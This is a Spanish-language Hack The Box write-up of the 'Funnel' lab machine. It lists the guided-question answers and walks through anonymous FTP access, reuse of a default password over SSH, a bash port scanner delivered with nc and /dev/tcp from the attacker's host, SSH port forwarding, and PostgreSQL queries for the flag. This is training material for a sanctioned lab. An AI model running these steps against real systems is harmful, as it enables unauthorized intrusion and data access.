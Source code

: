 ```yaml
---
title: Writeup funnel - Hack The Box - Resolución y Análisis
published: true
tags:
  - hackthebox
  - writeup
  - funnel
  - ciberseguridad
  - pentesting
description: Writeup y resolución de la máquina funnel en Hack The Box.
keywords:
  - writeup funnel
  - hack the box funnel
  - resolución máquina funnel
  - funnel hack the box
  - htb funnel
---
```

----------
### 🔗 Accesos rápidos

- 📄 **Writeup online**: [Link](https://publish.obsidian.md/bunzopy/HTB/SuperFacil/Tier+1/Linux/Funnel)
- 📺 **Resolución en vivo (completa)**: [Link](https://www.youtube.com/watch?v=VzS3cpyRyuc)
- 🧠 **Explicación resumida**: [Link](https://www.youtube.com/watch?v=s2Ysj5WkMV0)

------

#veryeasy #linux #nmap #ping  #ftp #cat #ssh #portscannersh

------
# Guided Mode

1)¿Cuántos puertos TCP hay abiertos?
	2

2)¿Cuál es el nombre del directorio disponible en el servidor FTP?
	mail_backup

3)¿Cuál es la contraseña por defecto de la cuenta que todo nuevo miembro del equipo «Embudo» debe cambiar lo antes posible?
	funnel123#!#

4)¿Qué usuario no ha cambiado aún su contraseña por defecto?
	christine

5)¿Qué servicio se ejecuta en el puerto TCP 5432 y sólo escucha en localhost?
	postgresql

6)En este escenario, necesitas acceder a un servicio que se ejecuta en el servidor. Por lo tanto, generará tráfico dirigido a un puerto en su máquina local y, a su vez, SSH hará un túnel con este tráfico hacia el puerto remoto.
	local port forwarding

7)¿Cómo se llama la base de datos que contiene la bandera?
	secrets

8)¿Podría utilizar un túnel dinámico en lugar del reenvío local de puertos? Sí o No.
	yes

---------
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.129.243.9
nmap -p- --open --min-rate 5000 -vvv -sS -n -Pn 10.129.243.9 -oG allPorts
extractPorts allPorts
nmap -sCV -p21,22 10.129.243.9 -oN target
```

![[Funnel1.png]]

![[Funnel2.png]]

![[Funnel3.png]]
*TTL:* Maquina Linux
*Puertos*:
	`21` [[ftp]]
	`22` [[ssh]]
*Datos Importantes:*
	El servicio [[ftp]] tiene la vulnerabilidad para conectarse como el usuario *anonymous*

------
# Conexion por [[ftp]]

Nos conectamos con el comando `ftp 10.129.243.9`, en usuario ponemos anonymous y en contraseña no colocamos nada. Esta es la vulnerabilidad que vimos antes con el escaneo de nmap
Entramos al directorio mail_backup y descargamos con el comando `get` los archivos password_policy.pdf y welcome_28112022

![[Funnel4.png]]

----------
### Analizamos el contenido de los archivos con [[xdg-open]]

*Archivo welcome_28112022:*

![[Funnel5.png]]
Nos da la informacion de que existen los usuarios, optimus, albert, andreas, christine, y maria

*Archivo password_policy.pdf*
Lo abrimos con el comando `xdg-open password_policy.pdf`

![[Funnel6.png]]
Nos informa que los usuarios nuevos tienen por defecto la contraseña ``funnel123#!#``

--------
## Conexion por [[ssh]]

El usuario christine no habia cambiado su contraseña y nos conectamos con `ssh christine@10.129.243.9 -p 22`
![[Funnel7.png]]
Ya estamos dentro de la maquina

----------

# [[Tratamiento de la TTY]]

------------
### Vamos a escanear los puertos con [[portScanner.sh a nivel local]]

Nuestra maquina: ``nc -nlvp 443 < portScanner.sh``
Maquina victima: ``cat < /dev/tcp/10.10.16.3/443 > portScanner.sh``

```
#!/bin/bash

function ctrl_c(){
  echo "[!]Saliendo..."
  exit 1
}

trap ctrl_c INT

for i in $(seq 1 65535); do
  timeout 1 bash -c "echo '' > /dev/tcp/127.0.0.1/$i" 2>/dev/null && "[!]Puerto abierto: $i" &
done
```

Y le damos permiso de ejecucion al archivo con `chmod +x portscanner.sh`

![[Funnel8.png]]
Sabemos que esta abierto el 21:[[ftp]], 22:[[ssh]], y el 5432 que es para [[postgresql]]

--------
# Conexion por [[postgresql]] y tunneling de [[ssh]]

Nos vamos a conectar nuevamente por [[ssh]] pero haciendo que el puerto de la maquina victima 5432 sea nuestro puerto 1234
``ssh -L 1234:localhost:5432 christine@10.129.243.9``

Y ahora nos vamos a poder conectar a la [[postgresql]] con el comando ``psql -U christine -h localhost -p 1234``
y cuando nos pide contraseña ponemos la misma de antes funnel123#!#

Una vez dentro de la base de datos, listamos la flag
```posgresql
\l                   |para ver las bases de datos
\c secrets                  |secrets para usar la base de datos
\dt                   |para ver las tablas y columnas
SELECT * FROM flag;   | para listar todo el contenido de la tabla flag
```

![[Funnel10.png]]

----------
# Creditos
Writeup Oficial HackTheBox